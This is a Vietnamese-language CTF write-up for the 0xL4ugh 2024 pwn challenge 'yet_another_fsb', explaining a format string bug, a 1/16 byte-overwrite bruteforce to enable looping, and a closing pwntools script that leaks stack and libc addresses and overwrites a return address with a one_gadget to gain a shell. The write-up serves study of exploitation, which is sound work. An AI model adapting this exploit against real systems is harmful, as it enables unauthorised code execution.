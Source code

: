 ```yaml
--- 
title: 0xL4ugh CTF 2024
date: 2025-03-06 00:00:00 +0800
description: "0xL4ugh-2024"
tags: ['pwn']
authors: ['kuvee']
draft: false
---
```


## yet_another_fsb





checksec : ![image](https://hackmd.io/_uploads/rJuQ_sCrJg.png)


- 1 bài fsb brutefoce , nhìn vào ta thấy được có 1 bug fsb , tuy nhiên nếu muốn loop vô hạn thì ta phải sửa được giá trị v5 != 0 , và đây có lẽ là điều khó khăn nhất ở bài này 
![image](https://hackmd.io/_uploads/BkGM_jRH1e.png)

- đây là stack của ta tại ```printf```

![image](https://hackmd.io/_uploads/ByZ0djASke.png)

- ở đây ban đầu mình nghĩ là cần sử dụng 1 con trỏ stack(A) đang trỏ đến địa chỉ stack khác(B) , lúc này ta cần ghi địa chỉ B thành địa chỉ chứa giá trị cần ghi ("C") , sau đó ghi C thành giá trị cần ghi

nó sẽ như thế này : 
```
A->B
C->value

A->C
cuối cùng là ghi C thành giá trị khác 0 
```

- tuy nhiên vì chỉ được ghi 1 lần nên cách này có vẻ khá rắc rối , ta cần dùng cách khác , nếu để ý kĩ thì 4bit cuối cùng của giá trị cần ghi luôn là 'e' và offset thứ 21 ta có thể control được , vậy ở đây ta sẽ overwrite 1 byte của offset21 sao cho 4bit cuối sẽ luôn là e -> ta sẽ bruteforce 4 bit (2^4 = 16) , tỉ lệ sẽ là 1/16

```
giá trị cần ghi : 0x7fffffffd8be
offset 21 : 0x00007fffffffd888
```
![image](https://hackmd.io/_uploads/SJROooAB1e.png)

- bruteforce xong rồi thì phần còn lại ta có thể leak_stack hoặc overwrite GOT (bài này là RELRO 1 phần) 

script 

```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./yet_another_fsb_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe
p = process()
HOST = "775be8f93719361fa898224c7cf5d114.chal.ctf.ae"
p = remote(HOST, 443, ssl=True, sni=HOST)
#gdb.attach(p,gdbscript='''
#            b*0x00000000004011ea
#            b*0x00000000004011ef
#           ''')
input()
sleep(1)
payload  = b'%254c%27$hhn'
payload += b'|%43$p|%41$p|'
payload += b'\xfe' * (0xa9 - len(payload))
p.send(payload)
sleep(0.5)
p.recvuntil(b'|')
stack = int(p.recvuntil(b'|')[:-1], 16)
stack_write = stack - 0x120
log.info(f"stack {hex(stack)}")

libc.address = int(p.recvuntil(b'|')[:-1], 16) - (0x7f7be8cf9c88 - 0x7f7be8cd4000)
log.info(f"libc: {hex(libc.address)}")

one_gadget = 0xff2ef + libc.address
pop_rdi = 0x00000000000fd8c4+ libc.address
system = libc.sym.system
bin_sh = next(libc.search(b'/bin/sh\x00'))
write = {
        stack_write:one_gadget,
        stack_write-10:0
        }
payload = fmtstr_payload(6,write,write_size='short')
p.sendline(payload)
p.interactive()
```

![image](https://hackmd.io/_uploads/rkUFD1kIyx.png)

